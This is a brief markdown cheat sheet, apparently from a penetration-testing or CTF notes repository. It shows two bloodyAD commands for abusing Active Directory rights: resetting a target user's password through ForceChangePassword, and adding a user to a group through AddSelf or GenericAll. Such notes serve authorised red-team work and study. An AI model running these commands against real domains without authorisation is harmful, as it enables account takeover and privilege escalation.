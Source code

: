 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```